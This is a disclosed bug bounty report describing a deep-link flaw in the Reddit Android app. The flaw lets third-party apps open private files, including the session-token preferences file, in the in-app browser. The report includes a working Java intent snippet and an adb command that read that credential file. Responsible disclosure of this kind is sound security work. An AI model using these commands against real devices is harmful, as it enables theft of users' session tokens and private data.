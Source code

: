 # Third party app could steal access token as well as protected files using inAppBrowser

## Report Details
- **Report ID**: 1122177
- **URL**: https://hackerone.com/reports/1122177
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-03-10T11:15:25.020Z
- **Disclosed**: 2021-10-27T14:10:40.811Z

## Reporter
- **Username**: rahulkankrale
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
## Summary:
Reddit android app version : 2021.8.0 
OS: Android 11

This app uses com.reddit.frontpage.RedditDeepLinkActivity class to route app links including deeplink and reddit.com links while this class does not check for scheme, host and it opens given url in InAppBrowser and IAB have access to apps private/protected files.

So any third party app could steal session token from "data/data/com.reddit.frontpage/shared_prefs/com.reddit.auth_active.UserName.xml" files as well as rest of sensitive files like DB, Cookies etc. 

## Impact:
Third party app could steal access token as well as protected files using inAppBrowser

## Steps To Reproduce:
To reproduce this issue I have created basic poc:
  1. Create third-party app using snippet (Replace UserName to victims username i.e. file:///data/data/com.reddit.frontpage/shared_prefs/com.reddit.auth_active.**Strong-Sun628**.xml) :

```java 
        Intent intent = new Intent();
        intent.setClassName("com.reddit.frontpage", "com.reddit.frontpage.RedditDeepLinkActivity");
        intent.setData(Uri.parse("file:///data/data/com.reddit.frontpage/shared_prefs/com.reddit.auth_active.UserName.xml"));
        startActivity(intent);
``` 
  1. Once open third-party app, Reddit app opens InAppBrowser with auth_active file and its data contained token.
  2. We could also reproduce this quickly using adb:

```shell
adb shell am start -n "com.reddit.frontpage/com.reddit.frontpage.RedditDeepLinkActivity" -d "file:///data/data/com.reddit.frontpage/shared_prefs/com.reddit.frontpage_preferences.xml"
```

## Supporting Material/References:
Video : Proof of concept
  * F1225199

if required I can submit complete POC to show how third-party app could save this files and send to attackers server.

Thanks
Rahul

## Impact

Third party app could steal access token as well as protected files using inAppBrowser

## Attachments
- reddit.mp4
